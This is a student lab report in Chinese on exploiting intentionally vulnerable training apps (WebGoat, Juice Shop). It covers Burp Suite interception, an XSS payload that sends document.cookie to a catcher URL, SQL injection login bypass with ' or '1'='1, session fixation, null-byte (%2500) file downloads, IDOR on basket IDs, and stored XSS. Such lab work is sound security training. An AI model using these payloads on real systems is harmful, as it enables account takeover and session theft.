









# Web 应用漏洞攻防

## 实验目的
* 了解常见 Web 漏洞训练平台； 
* 了解 常见 Web 漏洞的基本原理；  
* 掌握 OWASP Top 10 及常见 Web 高危漏洞的漏洞检测、漏洞利用和漏洞修复方法；  

## 实验环境   
* WebGoat   
* Juice Shop   

## 实验要求
*  每个实验环境完成不少于 5 种不同漏洞类型的漏洞利用练习  

## 实验过程 
## （一）webgoat环境下的漏洞攻防   
### 搭建WebGoat环境   
  * 首先确定虚拟机中没有安装docker-compose     
  * 更新apt并安装docker-compose，由于依赖的问题，会自动帮我们安装上最新版本的docker      
      
  * 查看docker镜像，确认成功安装     
      
  * 克隆老师的仓库到本地    
      
  * 用指令docker-compose up -d安装好WebGoat环境      
     
  * 用docker ps 查看三个镜像的健康状况,（还有一个镜像是webgoat对应的数据库)    
    可以看到不同版本的Webgoat对应不同的使用端口   
    * WebGoat-7.1对应虚拟机本地8087端口   
    * WebGoat-8.0对应虚拟机本地8080端口   
       
  * 访问入口地址注意大小写/WebGoat/ （驼峰式命名方式）  
    * 访问WebGoat-7.1 不需要注册，可用普通用户或者管理员身份登录       
        
    * 访问WebGoat-8.0 需要注册     
           
          
### 【漏洞类型①：未验证的用户输入】   
* 用WebGoat-8.0环境做这个实验：Bypass HTML Field Restrictions & Exploit Hidden Fields   
      
*  Bypass HTML Field Restrictions 绕过前端的限制     
    * 前期知识    
        * 前端：Web浏览器，用户可以查看源码，可以修改html甚至脚本代码（可以修改表单字段限制等）  
        * 后端：用户无法直接访问的服务器     
    * 让浏览器配合Burp Suite的使用  
        * 在浏览器添加插件ProxySwitchyOmega，设置proxy    
        注意由于我是用同一个虚拟机进行试验，所以要删除bypass list里面的127.0.0.1信息         
              
        * 设置burpsuite的intercept is on，即相当于设置断点，方便调试、转发    
            
        * 在WebGoat-8.0提交表单（先不做修改）    
            
        * 发现在burp suite连接到了POST请求      
              
        * 不做修改的情况下进行forward，发现表单提交失败    
              
        * 通过开发者工具查看每个表项的限制   
            * Option下拉菜单限制是1和2   
            * Option单选框限制是1和2    
            * checkbox限制是on和off    
            * 输入框限制是内容长度不能大于5个字符      
        * 修改每一个表单项的内容，让它突破html中的表单填写限制，进行forward     
            
        * 此时看到表单提交成功，实验成功      
             
    * 由此可以了解到前端的限制其实就像个“摆设”，很容易突破    
*  Exploit Hidden Fields 绕过前端的校验     
    * 在没有修改表单内容（即所有表单内容都符合校验标准的时候），forward提交      
         
    * 和上一过程同理，用burp suite进行拦截并且修改每一个表项内容，让其不符合校验标准，然后forward     
    * 按理说应该提交成功，突破校验。但是实验没成功（老师上课演示也没成功）    
    * 原理懂了即可，该实验也就是为了说明前端的校验标准也容易被突破    

### 【漏洞类型②：跨站点脚本(XSS)】   
* 用WebGoat 7.0.1 环境做这个实验：Phishing with XSS  
    
* 可见这个实验的目的是：   
  * 通过xss攻击获取受害者的cookie
  * 把cookie以参数的形式发送到目标服务器中   
* 首先尝试最基础的弹窗，用以下代码弹出页面cookie值         
``` <script>alert(document.cookie)</script> ```      
         
* 换成以下代码    
``` <script>window.open('http://127.0.0.1:8087/WebGoat/ catcher?PROPERTY=yes&msg='+document.cookie)</script> ``` 
           
* 观察到此时弹出了一个网页，其URL为         
  http://127.0.0.1:8087/WebGoat/catcher?PROPERTY=yes&msg=JSESSIONID=4DC9F3FCD8CD3215786AE469A89699F9          
  此url中msg参数和之前弹窗弹出来的cookie相同，实验成功        
          
         

### 【漏洞类型③：脆弱的访问控制】       
* 用WebGoat 7.0.1 环境做这个实验：Forgot Password & Multi Level Login 2  
    
* Forgot Password 忘记密码  
   * 原理：Web应用经常提供给用户密码找回功能，但是不幸的是有些措施很弱，证明自己是该用户的方式过于简单，会造成威胁  
   * 实验目的：通过类似穷举的方式突破身份证明问题，从而获取用户名密码  
   
   * 仅尝试了几次就获取到了webgoat的用户信息，攻击成功  
     
   * 同理也能很快猜出admin最喜欢的颜色，从而获取到用户信息  
       
* Multi Level Login 多级登陆  
   * Multi Level Login 1  
       * 原理：多级登录提供了一个健壮的验证，加入了第二层的存档，在通过用户名和密码登录后，可以请求一个交易码，每个交易认证码只能用一次。  
       * 目的：通过开发人员工具，修改隐藏的二级登录序号，拥已经拥有的二级登录交易码登入他人账号  
       * 黑客已知用户名Jane，其密码是tarzan，第一次登录交易码tan1=15648  
       * 黑客尝试登录时需要输入tan2，但是黑客不知道    
       于是通过开发人员工具将tan2改成tan1    
          
       * 此时在“Enter TAN #2"的输入栏中，输入tan1的值15648即可成功登录   
          
       * 实验成功，这种攻击也叫重放攻击    
    * Multi Level Login 2  
       * 原理：进行第二层认证的时候默认用户来自于第一层认证的用户，缺少了用户与交易码之间绑定关系的验证   
       * 我们以 Joe 的账号进行登录，密码为banana。登录之后会发现要输入交易码，此时用开发人员工具将隐藏框内的 Joe 改为 Jane，输入交易码然后提交数据  
          
       * 这时发现成功登陆Jane的账号，实验成功 
          

### 【漏洞类型④：脆弱认证和会话管理】  
* 用WebGoat 7.0.1 环境做这个实验：Session Fixation  
    
* 原理：服务器通过每个用户的唯一的Session ID 来确认其合法性。如果用户已登录，并且授权他不必重新验证授权时，当他重新登录应用系统时，他的Session ID 依然是被认为合法的。  
* 伪造一个带有Session的链接发送给别人,在邮件内容后加&SID=xxxx……  
    
* Janes收到这个邮件，点击链接并进行了登录,密码是tarzan  
    
* 此时只需要用刚刚发送的Session值,就可以直接进入别人账户  
    

### 【漏洞类型⑤： sql注⼊缺陷】    
* 用WebGoat 7.0.1 环境做这个实验：LAB: SQL Injection  
       
* 原理：    
       
* 原登录界面如下图，此时黑客并不知道用户密码  
     
* 用Burp suite拦截提交，修改password内容为 ' or '1'='1  
      
* Burp suite 将修改后的内容forward，成功绕过认证登录，可以进行接下来的搜索、修改、创建、删除等操作  
     


## （二）Juice Shop环境下的漏洞攻防  
### Juice Shop环境搭建  
* 相比较于现有的其他「漏洞训练」项目，本项目在产品「仿真」程度上更贴近一个「真实」应用：电商系统。  
* 在从老师仓库git clone下来的文件中找到juice-shop文件夹   
* 用此路径下的指令docker-compose up -d安装Juice Shop环境    
      
* 用docker ps 查看镜像的健康状况，juice-shop对应虚拟机3000端口      
           
* 访问入口地址，成功进入JuiceShop环境界面  
    
* 进行注册登录   
     
* 至此环境就搭建好了   
  此时看起来还是像一个商品店，但是提醒我们要通过开发者工具进行探究   
      
* 在源代码中发现了计分板页面#/score-board   
   
* 然后访问此页面就可以看到所有的成就和每一关的要求，同时也通过了第一关，这样我们的实验就可以开始啦！   
      

### 【漏洞类型①： sql注⼊缺陷】     
* 按照之前WebGoat实验的sql原理    
  首先尝试email用 ' or '1'='1,密码随便填，发现无法登陆      
          
* 换一种写法继续尝试，成功    
      
* 成功绕过认证登陆了页面         
         
         

### 【漏洞类型②：身份认证失效】    
* 目标： 通过忘记密码，更改用户密码   
  
* 猜测账户 + 猜测宠物名  
* 社会工程学问题，在互联网上进行信息收集，发现他有个猫叫Zaya，尝试填入  
    
* 成功  
    

### 【漏洞类型③：敏感数据曝光/遗忘信息】  
* 目标：Forgotten Sales Backup      
   
* 在/#/about 页面中通过开发者工具找到【使用条款】的对应href=“/ftp/legal.md”    
         
* 推测所有的文件都存在于href="/ftp",去访问，发现推测成立     
       
* 找到文件“库"了，则可以随便下载啦！     
     
* 但是点开优惠券的文件发现会报错      
     
* 用%2500阶段后缀名，然后可成功下载文件      
       
* 成功获取    
      

### 【漏洞类型④：访问控制失效】
* 目标： 要求我们往其他人的购物车里加入商品            
* 用burpsuite抓包，点添加购物车后，抓包发现链接上有个/rest/basket/8，修改此处的8为其他数字。即可把商品加到他人购物车          
       
* 这里将数字修改改为15     
          
* 接下来forward，在我的购物车里并没有出现这个商品，实验成功。    
        
        

### 【漏洞类型⑤：持续型XSS攻击】
* 目的：需要成功生成一个存储型的```<script>alert(“XSS″)</script>```XSS攻击。      
  （在注册用户的时侯，存储下来）  
* 在提交注册表单的时候，通过Burp suite拦截  
    
* 将email内容修改为```<script>alert(\"XSS\")</script>```    
  
* 按照之前的sql注入方法登录管理员账号    
  进入http://localhost:3000/#/administration
* 发现确实成功生成了这个存储型的XSS，实验成功
  


## 参考文献
* burpsuite (Kali内置）https://portswigger.net/burp  
* burpsuite实战指南 https://legacy.gitbook.com/book/t0data/burpsuite/details
* Juice Shop教程 https://bkimminich.gitbooks.io/pwning-owasp-juice-shop/content/